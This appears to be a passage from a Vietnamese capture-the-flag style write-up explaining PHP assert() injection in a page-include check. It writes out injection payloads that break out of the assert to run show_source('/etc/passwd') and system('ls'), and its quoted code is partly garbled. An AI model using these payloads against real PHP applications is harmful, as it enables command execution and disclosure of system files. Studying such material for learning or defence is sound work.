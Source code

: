$file = "pages/" . $page . ".php";
assert(...$file...) or die("Detected hacking attempt!");
require_once $file;

Ví dụ bây giờ page là home thì dòng lệnh trên sẽ trở thành :

$file = "pages/" . $page . ".php";
assert(...$file...) or die("Detected hacking attempt!");
require_once $file;

========>     $file = "home.php";
              assert(strpos('includes/home.php,'..')===false);
              // hàm strpos('includes/home.php,'..') ở đây kiểm tra vị trị xuất hiện đầu tiên của chuỗi '..' trong chuỗi 
              assert(...$file...) or die("Detected hacking!);
              require_once $file;

              assert(strpos('includes'' and die(show_source('/etc/passwd')) or '.php,'..')===false)

              Nhưng mà nó vẫn bị die(system("ls;"))


giải thích một chút về hàm system sẽ thực hiện command ls ở trong nó và liệt kê chúng và hàm die(system("ls;")) sẽ in ra các kết quả của system("ls;")
 và injection như này 

 ' and die(system("ls;")) or ' 
 